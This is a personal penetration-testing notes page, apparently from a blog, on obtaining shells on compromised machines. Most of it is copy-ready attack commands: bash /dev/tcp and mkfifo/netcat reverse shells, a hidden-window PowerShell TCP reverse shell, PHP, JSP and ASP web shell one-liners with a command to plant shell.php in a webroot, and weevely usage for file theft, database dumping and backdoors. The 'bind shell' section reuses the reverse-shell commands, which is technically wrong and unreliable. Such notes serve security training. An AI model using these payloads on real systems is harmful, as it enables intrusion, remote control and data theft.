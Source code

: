 ```yaml
---
title: Notes | Shell
author: Zeropio
date: 2022-04-25
categories: [Notes, System]
tags: [bash, linux]
permalink: /notes/system/shell
---
```


# Shell

The shells are the main objective to compromise an attacked machine.
In [revshells](https://www.revshells.com/) we can find more.

# Types

| **Type** | **Description** |
|----------|-----------------|
| Reverse shell | Connection to a *listener* in the attacked machine |
| Bind shell | Bind to a port in the attacked machine and waits for the connection |
| Web shell | Runs commands via the web |

---

# Reverse shell

## Netcat connection

First we need to start a **netcat** in our machine:

```console
zero@pio$ nc -lvnp 9000
```

| **Flag**   | **Description**    |
|--------------- | --------------- |
| `-l`   | Listen mode   |
| `-v`   | Verbose mode   |
| `-n`   | Disable DNS resolution, speed up   |
| `-p`   | Port number   |

Then we execute the reverse shell command in the objective machine.

## Reverse shell command

Depends on the machine the command may be different. In [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md) we can found many, as well as in *revshells*.

Some Linux examples can be seen as:
```bash
bash -c 'bash -i >& /dev/tcp/<ip>/<port> 0>&1'
```
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <ip> <port> >/tmp/f
```

And Windows:
```powershell
powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("<ip>",<port>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

# After a reverse shell...
We can get a interactive shell with the following command:
```console
$ script /dev/null -c bash
```

---

# Bind Shell

Unlike the reverse shell, we need to make the connection to the bind shell. We can found some scripts in *PayloadsAllTheThings*.

## Bind shell command

As before, there are different commmands for different OS.
For Linux:
```bash
bash -c 'bash -i >& /dev/tcp/<ip>/<port> 0>&1'
```
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <ip> <port> >/tmp/f
```

For Windows:
```powershell
powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("<ip>",<port>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

## Netcat connection

Then we can start our netcat. We can see that we will connect directly:
```console
zero@pio$ nc <ip> <port>
```

## Upgrading shell

With an Bind shell we are really limited.

Let's use Python to upgrade it:
```console
zero@pio$ python -c 'import pty; pty.spawn("/bin/bash")'
```

Then we press `CTRL + z` to background the shell and use the **stty** command:
```console
www-data@machine$ ^Z 

zero@pio$ stty raw -echo
zero@pio$ fg 

[Enter]
[Enter]
www-data@machine$ 
```
After, we can press `Enter` or use *reset*.

Maybe the shell does not cover the entire terminal. We can import our configuration:
```console
zero@pio$ echo $TERM 
  xterm-256color
zero@pio$ stty size
  67 318
```

Then in our bind shell:
```console
www-data@machine$ export TERM=xterm-256color
www-data@machine$ stty rows 67 columns 318
```

---

# Web shell

A web shell is directly in the webpage, for example with PHP or ASPX.

## Writing

This are some of the scripts to execute a web shell:
```php
<?php system($_REQUEST["cmd"]); ?>
```

```jsp
<% Runtime.getRuntime().exec(request.getParameter("cmd")); %>
```

```
<% eval request("cmd") %> # asp
```

## Uploading the shell

Firstly, we need to upload the webshell.
Secondly, we need to figurate which type of server is:

| **Server**   | **Default Webroot**    |
|--------------- | --------------- |
| Apache   | `/var/www/html/`{: .filepath}   |
| Nginx   | `/usr/local/nginx/html/`{: .filepath}   |
| IIS   | `c:\inetpub\wwwroot\`{: .filepath}   |
| XAMPP   | `C:\xampp\htdocs\`{: .filepath}   |

For example, for a Apache in Linux with a PHP:
```bash
echo '<?php system($_REQUEST["cmd"]); ?>' > /var/www/html/shell.php
```

## Accesing the shell

Access the file through the browser or using cURL. With the option `?cmd=<command>` we can execute it.
For example: `http://<ip>/shell.php?cmd=whoami` in the web, or with curl:
```console
zero@pio$ curl http://<ip>/shell.php?cmd=whoami
  www-data
```

---

## weevely
To generate a shell:
```console
$ weevely generate [password] /home/kali/shell.php
$ weevely http://ip/shell.php [password]
```

We can use **:help** inside the weevely shell to get some functions. We can use **-h** in the weevely function to access more options.
Sometimes we wouldn't be able to execute commands, weevely can help us:
```console
$ :shell_sh -v [option] [command]
```

Some other options are:
- **:file_download [remotepath] [localpath]**: download files
- **:file_upload [localpath] [remotepath]**: upload files
- **:file_read [localpath]**: read a file
- **:sql_console**
- **:sql_dump -host [ip] -lpath [localpath].txt [user] [password]**: dump a db into a file (if the db doesn't have a password we should use **''** instead).
- **:backdoor_reversetcp [lhost] [lport]**: create a reverse shell (we need to add a **;** after each command).
##### If any option doesn't work we can use **-vector [option]** to change the attack.

